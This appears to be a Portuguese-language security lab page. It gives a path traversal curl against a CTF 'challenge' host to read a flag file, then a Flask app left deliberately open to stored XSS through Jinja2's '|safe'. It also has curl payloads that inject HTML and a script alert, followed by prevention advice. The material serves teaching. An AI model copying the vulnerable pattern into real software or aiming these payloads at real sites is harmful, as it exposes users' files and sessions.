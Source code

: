 1  Path Traversal! 🛡️
curl "http://challenge.localhost/blob/..%2f..%2f..%2fflag"
## 2 xss

<h1>Laboratório Seguro de XSS Armazenado</h1>

  <h2>1. Estrutura do laboratório</h2>
    <pre>
xss_lab/
│
├─ app.py          # Aplicação Flask simulando site vulnerável
├─ templates/
│   └─ index.html  # Página principal com formulário
└─ posts.db        # Banco de dados SQLite para armazenar posts
    </pre>

  <h2>2. Código do servidor (Flask)</h2>
    <h3>app.py</h3>
    <pre><code>from flask import Flask, request, render_template, redirect
import sqlite3

app = Flask(__name__)
DB_FILE = "posts.db"

# Cria tabela se não existir
conn = sqlite3.connect(DB_FILE)
conn.execute("CREATE TABLE IF NOT EXISTS posts (id INTEGER PRIMARY KEY, content TEXT)")
conn.close()

@app.route("/", methods=["GET"])
def index():
    conn = sqlite3.connect(DB_FILE)
    cur = conn.cursor()
    cur.execute("SELECT content FROM posts ORDER BY id DESC")
    posts = cur.fetchall()
    conn.close()
    return render_template("index.html", posts=posts)

@app.route("/post", methods=["POST"])
def post():
    content = request.form.get("content", "")
    # Simula vulnerabilidade: NÃO escapamos HTML
    conn = sqlite3.connect(DB_FILE)
    cur = conn.cursor()
    cur.execute("INSERT INTO posts (content) VALUES (?)", (content,))
    conn.commit()
    conn.close()
    return redirect("/")
    
if __name__ == "__main__":
    app.run(debug=True, port=5000)
</code></pre>

  <h2>3. Template HTML</h2>
    <h3>templates/index.html</h3>
    <pre><code>&lt;!doctype html&gt;
&lt;html lang="en"&gt;
&lt;head&gt;
  &lt;meta charset="UTF-8"&gt;
  &lt;title&gt;Laboratório XSS&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
  &lt;h1&gt;Postagens&lt;/h1&gt;
  &lt;form method="post" action="/post"&gt;
    &lt;input type="text" name="content" placeholder="Escreva algo malicioso..."&gt;
    &lt;input type="submit" value="Enviar"&gt;
  &lt;/form&gt;
  &lt;hr&gt;
  &lt;h2&gt;Últimas postagens&lt;/h2&gt;
  {% for post in posts %}
    &lt;div&gt;{{ post[0]|safe }}&lt;/div&gt;
  {% endfor %}
&lt;/body&gt;
&lt;/html&gt;
</code></pre>
    <p><strong>Nota:</strong> o <code>|safe</code> no Jinja2 permite que o HTML seja renderizado diretamente, simulando uma vulnerabilidade XSS armazenada.</p>

  <h2>4. Testando o XSS</h2>

  <h3>4.1 Injetando uma carga maliciosa</h3>
    <pre><code>curl -X POST http://localhost:5000/post \
     -d 'content=&lt;input type="text"&gt;&lt;input type="text"&gt;&lt;input type="text"&gt;'</code></pre>
    <p>O servidor salva o post no banco. Ao visitar <a href="http://localhost:5000/" target="_blank">http://localhost:5000/</a>, o navegador renderiza 3 caixas de texto automaticamente. Isso simula como um atacante poderia injetar HTML/JS que será executado em outros usuários.</p>

   <h3>4.2 Simulando roubo de cookie (laboratório seguro)</h3>
    <pre><code>curl -X POST http://localhost:5000/post \
     -d 'content=&lt;script&gt;alert("Cookie: fake_cookie")&lt;/script&gt;'</code></pre>
    <p>O script é executado quando qualquer usuário visita a página. No laboratório, apenas dispara um alerta para não prejudicar ninguém. No mundo real, poderia capturar cookies ou realizar ações não autorizadas.</p>

  <h2>5. Boas práticas de prevenção</h2>
    <ul>
        <li><strong>Escapar entradas do usuário:</strong>
            <pre><code>from markupsafe import escape
content = escape(request.form.get("content", ""))</code></pre>
        </li>
        <li><strong>Sanitizar HTML com bibliotecas, como Bleach:</strong>
            <pre><code>import bleach
safe_content = bleach.clean(content, tags=[], attributes={})</code></pre>
        </li>
        <li>Configurar <strong>CSP (Content Security Policy)</strong> no servidor de produção.</li>
        <li>Limitar tamanho e tipo de entrada de usuários.</li>
    </ul>

<h2>✅ Resumo do laboratório</h2>
    <ul>
        <li>Você criou um servidor Flask que simula XSS armazenado.</li>
        <li>Pode injetar HTML/JS que será executado no navegador da “vítima”.</li>
        <li>Testes são 100% seguros, controlados e educativos.</li>
        <li>Demonstra na prática como o XSS armazenado funciona e como prevenir.</li>
    </ul>
